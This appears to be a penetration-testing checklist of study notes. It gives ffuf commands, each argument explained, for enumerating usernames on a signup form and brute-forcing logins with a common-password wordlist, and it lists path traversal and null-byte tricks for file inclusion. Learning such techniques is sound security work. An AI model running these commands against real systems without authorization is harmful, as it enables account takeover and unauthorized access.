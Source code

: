 - [ ]  Username Enumeration
    - [ ]  ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://IP_ADDRESS/customers/signup -mr "username already exists"
        - `-w` argument selects the file's location on the computer that contains the list of usernames that we're going to check exists
        - `-X` argument specifies the request method, this will be a GET request by default, but it is a POST request in our example
        - `-d` argument specifies the data that we are going to send. In our example, we have the fields username, email, password and cpassword. We've set the value of the username to **FUZZ**. In the ffuf tool, the FUZZ keyword signifies where the contents from our wordlist will be inserted in the request
        - `-H` argument is used for adding additional headers to the request. In this instance, we're setting the `Content-Type` so the web server knows we are sending form data.
        - `-u` argument specifies the URL we are making the request to
        - `-mr` argument is the text on the page we are looking for to validate we've found a valid username.
- [ ]  Bruteforce (not always recommended)
    - [ ]  ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://IP_ADDRESS/customers/login -fc 200
        - **U**sing multiple wordlists, we have to specify our own FUZZ keyword. In this instance, we've chosen `W1` for our list of valid usernames and `W2` for the list of passwords we will try. The multiple wordlists are again specified with the `-w` argument but separated with a comma.
        - For a positive match, we're using the `-fc` argument to check for an HTTP status code other than 200.

## LFI/RFI

- [ ]  dot-dot slash attack (../)
- [ ]  Leverage request terminator for bypassing filters (%00) 
![alt text](../images/image.png)
    
    
- [ ]  Possible input validation technique
![alt text](../images/image-1.png)
